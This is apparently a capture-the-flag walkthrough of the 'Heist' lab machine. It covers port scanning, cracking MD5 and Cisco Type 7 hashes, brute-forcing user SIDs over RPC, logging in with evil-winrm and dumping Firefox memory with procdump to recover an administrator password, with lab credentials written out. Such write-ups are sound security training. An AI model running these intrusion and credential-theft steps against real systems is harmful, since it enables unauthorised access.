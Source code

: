 # Heist Walkthrough

Date: 2024/08/211.

## Ports Enumeration

I began with a full port scan to identify open services on the target machine:

```bash
nmap -Pn -p 80,135,445,5985,49669 -A -v -oN scan.txt -oX scan.xml <target>
```

The scan revealed the following open ports and services:

```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
```

The target is likely running Microsoft Windows Server 2019 based on the OS fingerprint.2.

## Port 80 (HTTP) Enumeration

Navigating to the web server on port 80 presented a login page. The page allowed login either as an authenticated user or as a guest.

### Guest Login:

Logging in as a guest provided some valuable information:

Users:
* `admin`
* `rout3r`
* `hazard`

Configuration File:

* Located at http://heist.htb/attachments/config.txt, which contained encrypted passwords.

### Decrypting Passwords

The configuration file provided three encrypted passwords:

* `$1$pdQG$o8nrSzsGXeaduXrjlvKc91` (MD5 hash)
* `0242114B0E143F015F5D1E161713` (Cisco Type 7)
* `02375012182C1A1D751618034F36415408` (Cisco Type 7)

### MD5 Hash:

The first password is encrypted using MD5 (indicated by the $1$ prefix). I decrypted it using hashcat:

```bash
hashcat -m 500 <password_file> /usr/share/wordlists/rockyou.txt
```

### Cisco Type 7:

The other two passwords were Cisco Type 7 encrypted, which I decrypted using an online tool: Cisco Password Cracker.

Decrypted passwords:

* `stealth1agent`
* `$uperP@ssword`
* `Q4)sJu\Y8qz*A3?d`

## Initial Access via RPC

Using the `hazard` credentials, I gained access via the RPC protocol with `rpcclient`:

```bash
rpcclient -U "hazard" --password="stealth1agent" <target>
```

## User Enumeration:

To enumerate users, I used a script that cycles through possible SIDs:

```bash
for i in {0..1050}; do 
  rpcclient -U "hazard%stealth1agent" <target> -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i"
done
```

This revealed several new users, including:

* SUPPORTDESK\Administrator
* SUPPORTDESK\Chase

## Gaining User Access via WinRM

With the `Chase` credentialsn, I connected to the target using WinRM:

```bash
evil-winrm -i <target> -u chase -p "Q4)sJu\Y8qz*A3?d"
```

I successfully obtained the user flag from the Chase account.

## Privilege Escalation to Administrator

### Enumeration

On the desktop, I found a `todo.txt` file with minimal hints. I used `winPEAS` for automated enumeration but found nothing conclusive. However, I noticed active Firefox processes and decided to dump their memory:

```powershell
Get-Process | Where-Object { $_.ProcessName -eq "firefox" }
```

### Dumping Firefox Memory

Using `procdump`, I dumped the Firefox process:

```powershell
.\procdump.exe 6696 -accepteula
```

Within the dump files, I discovered the administrator password: `4dD\!5}x/re8]FBuZ`.

## Accessing the Administrator Account

Finally, I logged in as Administrator using the discovered credentials and obtained the root flag:

```bash
evil-winrm -i <target> -u administrator -p "4dD\!5}x/re8]FBuZ"
```

## Summary

This box required careful enumeration and persistence. The initial access was challenging but rewarding as I gained further insight into Windows enumeration techniques. The privilege escalation, particularly through process memory dumping, provided a valuable learning experience.

### Key Takeaways:

* Web enumeration and password decryption
* RPC enumeration techniques
* Utilizing WinRM for remote access
* Process dumping and analysis for privilege escalation